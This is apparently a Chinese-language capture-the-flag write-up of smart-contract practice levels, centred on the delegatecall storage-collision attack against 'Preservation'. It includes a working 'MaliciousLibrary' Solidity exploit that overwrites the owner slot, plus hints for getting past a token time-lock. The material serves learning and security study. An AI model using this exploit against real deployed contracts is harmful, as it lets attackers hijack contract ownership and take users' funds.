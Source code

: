 没有新东西
提供两个思路：
第一种：使用ERC20的approve和transferfrom方法
第二种：利用modifier设计的缺陷，通过中间合约来调用逃过require的时间检测

## 16. Preservation ✅ [Medium]

这关主要考察对delegatecall的理解：
- delegatecall 是一种低级函数，用于在当前合约的上下文中执行另一个合约的代码。
- 攻击者可以利用 delegatecall 来执行目标合约的代码，从而获取目标合约的控制权。

攻击思路：
1. LibraryContract 的 storedTime 虽然在其定义中位于 Slot 0，但由于使用了 delegatecall，其逻辑实际上操作的是 Preservation 合约的 Slot 0，即 timeZone1Library。
2. 如果将 timeZone1Library 设置为攻击合约地址，可以通过 delegatecall 执行恶意合约逻辑，并直接修改 Slot 2（owner）。
3. 攻击合约：
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract MaliciousLibrary {
    // 保持存储布局与 Preservation 合约一致
    address public timeZone1Library; // Slot 0
    address public timeZone2Library; // Slot 1
    address public owner;            // Slot 2

    function setTime(uint256 _time) public {
        owner = address(uint160(_time)); // 将 uint256 转为地址并赋值给 owner
    }
}
```

学习要点：
- 理解 delegatecall 的工作原理
- 在以太坊智能合约中，delegatecall 是一种低级调用方式，用来将一个合约中的逻辑执行权限委托给另一个合约。被委托的合约代码执行时：
使用调用者的上下文（包括 msg.sender 和 msg.value）
共享调用者的存储空间
这种机制虽然非常强大，但也伴随存储槽（Storage Slots）覆盖风险。
- 当使用 delegatecall 调用另一个合约时：
被调用合约 B 会使用调用合约 A 的存储槽来读写数据。
由于存储槽位置是按变量声明顺序分配的，若 A 和 B 的变量布局不一致，delegatecall 可能会错误覆盖调用合约的存储槽。
- eg. 
```solidity
pragma solidity ^0.8.0;

contract A {
    uint256 public x = 1; // slot 0
    uint256 public y = 2; // slot 1

    function delegateTo(address _target, uint256 _value) public {
        (bool success, ) = _target.delegatecall(
            abi.encodeWithSignature("setX(uint256)", _value)
        );
        require(success, "Delegatecall failed");
    }
}

contract B {
    uint256 public z = 0; // slot 0 (不同的布局)
    
    function setX(uint256 _value) public {
        z = _value; // 写入 slot 0，但 A 会将其映射到 x
    }
}
```